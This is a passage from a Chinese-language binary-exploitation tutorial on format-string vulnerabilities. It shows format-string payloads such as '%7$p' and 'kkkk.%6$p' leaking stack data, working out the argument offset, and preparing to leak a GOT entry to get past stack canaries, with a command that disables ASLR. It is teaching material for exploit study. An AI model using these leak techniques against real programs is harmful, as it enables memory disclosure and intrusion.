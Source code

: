 这里我们输入的是 %7$p，所以我们注意第堆栈中第8个数，0x8048500。

```text
gdb-peda$ c
Continuing.
0x8048500
```

除泄露堆栈上数据外，其实我们还经常使用 %n$s 来泄露堆栈上变量所指向的字符串，原理同上，不过要小心我们前面说的 %s 解析无意义的地址时程序会崩溃的问题。

这种利用方法一个常用的地方就是泄漏 Canary，以此来绕过 Canary 保护。

### 泄露任意地址内存

上面的方法还是有一定局限性，我们再扩展一下，使其能泄露任意地址内存。

我们知道，堆栈上不仅保存着参数，其实局部变量也是存放在堆栈上面的。如果我们能控制局部变量，将其控制成我们想要获得的内存的地址，再通过使用上面讲到的 %n$s 来将该地址的内容以字符串的形式泄露出来。

还是用上面那个函数来举例演示一下。这个程序中我们控制的格式化字符串就是一个局部变量，那么我们就可以将想泄漏内存的地址放在局部变量中然后 %s 将内存打印出来。所以我们将格式化字符串修改为 \<addr>%n$s。

其中 n 为我们用来保存格式化字符串的局部变量相对于传递给格式化函数的格式化字符串参数偏移的参数位置个数（好绕啊，简化一点说就是局部变量距离参数多远），现在我们考虑一下如何获得这个值的大小。我们再修改一下格式化字符串，修改后为 \<tag>%p%p%p%p%p%p…… 或者 \<tag>%n$p。用上面的程序试验一下：

```text
$ ./a.out
aaaa%p.%p.%p.%p.%p.%p
*** stack smashing detected ***: ./a.out terminated
aaaa0xffd08108.0xf7eec000.0xf7d521f0.0x1.(nil).0x61616161
```

嗯，0x61616161 异常的亲切啊，这不正是 aaaa 的 ASCII 码嘛。不信？那再试一次。

```text
$ ./a.out
kkkk.%6$p
kkkk.0x6b6b6b6b
```

0x6b6b6b6b 是不是也很熟悉。好现在知道 n 的值为6了。那么我们尝试泄漏一下 GOT。（注：我是关了 ASLR 的，我毕竟是个懒人：sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"）

```shell
$ readelf -r a.out

Relocation section '.rel.dyn' at offset 0x30c contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x314 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a014  00000407 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

这里我们泄漏 <__isoc99_scanf\@plt>。需要说明的一点是我们是没法泄露 <printf\@plt> 的，原因是 scanf() 会对 \x00 \x09 \x0a \x0b \x0c \x0d \x20 7个特殊字符进行特殊处理，有兴趣的可以自己查查弄弄。
